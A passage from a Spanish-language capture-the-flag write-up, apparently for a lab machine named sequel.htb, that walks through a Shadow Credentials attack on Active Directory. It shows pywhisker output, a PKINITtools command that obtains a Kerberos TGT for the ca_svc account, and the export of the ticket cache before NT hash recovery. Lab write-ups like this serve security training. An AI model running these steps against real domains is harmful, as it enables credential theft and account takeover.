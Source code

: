 ```bash
[+] PFX exportiert nach: 3XPpuhro.pfx
[i] Passwort für PFX: CJ3TGjO5tCH2z2DO9Xxd
[+] Saved PFX (#PKCS12) certificate & key at path: 3XPpuhro.pfx
[*] Must be used with password: CJ3TGjO5tCH2z2DO9Xxd
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools

```

### **Solicitando un TGT para `ca_svc` con PKINITtools** 

El siguiente paso es solicitar un TGT **¿Por qué solicitar un TGT?**

Cuando un usuario se autentica en un dominio Kerberos, el **Key Distribution Center (KDC)** le emite un **TGT**. Este ticket es encriptado y almacenado en el sistema del usuario. Luego, cuando el usuario necesita acceder a un servicio dentro de la red, en lugar de autenticarse nuevamente, usa el **TGT** para solicitar un **Ticket de Servicio (TGS)**, que le permite acceder al recurso deseado.

En el contexto de ataques como **Shadow Credentials**, solicitar un **TGT** puede ser útil para obtener acceso a un usuario comprometido y luego extraer su hash NTLM para autenticación posterior

Para ello ejecutaremos el siguiente comando 

```bash
                                                                                                 
┌──(pywisker)─(kali㉿kali)-[~/pywhisker/pywhisker]
└─$ python3 /home/kali/PKINITtools/gettgtpkinit.py -cert-pem ZN8mxtDQ_cert.pem -key-pem ZN8mxtDQ_priv.pem sequel.htb/ca_svc ca_svc.ccache

2025-04-29 21:33:54,429 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-04-29 21:33:54,443 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-04-29 21:34:06,750 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-04-29 21:34:06,750 minikerberos INFO     44687f187691fea71f4cbb30b7af568d61d5b8ed629d146fdc45db2ad9cd926f
INFO:minikerberos:44687f187691fea71f4cbb30b7af568d61d5b8ed629d146fdc45db2ad9cd926f
2025-04-29 21:34:06,752 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

```

### **Exportar el TGT para usarlo con otras herramientas**

Una vez hemos generado el **TGT (Ticket Granting Ticket)** del usuario `ca_svc`, se guarda automáticamente en un archivo de tipo `ccache`, en este caso llamado `ca_svc.ccache`. Para que otras herramientas como **impacket** o **getnthash.py** puedan utilizar este ticket, debemos indicarle al sistema dónde encontrarlo usando la variable de entorno `KRB5CCNAME`.

```bash
export KRB5CCNAME=ca_svc.ccache
```

### **Recuperación del NT Hash del usuario `ca_svc`**
